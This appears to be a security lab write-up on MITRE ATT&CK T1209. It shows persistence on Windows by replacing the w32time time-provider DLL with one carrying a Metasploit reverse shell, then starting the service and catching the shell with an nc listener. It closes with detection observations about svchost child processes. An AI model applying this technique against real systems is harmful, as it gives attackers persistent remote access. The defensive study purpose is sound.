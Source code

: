 ```yaml
---
description: Persistence
---
```


# T1209: Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../.gitbook/assets/time-registry.png)

Starting the w32time service:

```bash
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Sends a reverse shell to the attacker:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be a good sign for you to start investigating the machine closer.

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1209\",\"type\":\"link\",\"title\":\"Time Providers - ATT&CK for Enterprise\"}" %}

